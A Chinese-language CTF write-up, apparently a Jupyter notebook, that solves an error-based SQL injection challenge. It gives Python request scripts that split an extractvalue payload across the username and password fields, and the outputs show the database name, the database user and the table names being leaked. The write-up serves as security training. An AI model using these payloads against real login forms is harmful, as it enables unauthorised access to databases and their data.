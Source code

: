 # sql注入之报错注入——加了料的报错注入

0x01
===
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/5wspylsy8c8.png" width="600px" />

[题目链接](http://ctf5.shiyanbar.com/web/baocuo/index.php)

0x02 解题
===
### 获取数据库名称
code

```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select database()))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```


output

```shell
<br>XPATH syntax error: '\error_based_hpf'
```


### 获取用户名称
code

```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select user()))	) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```


output

```shell
<br>XPATH syntax error: '\web8@localhost'

```


### 获取所有数据表名称
code

```python
import requests
data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,( select group_concat(table_name) from information_schema.tables where TABLE_SCHEMA regexp 'error_based_hpf'))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```


output

```shell
<br>XPATH syntax error: '\ffll44jj,users'
```




```{.python .input}

```
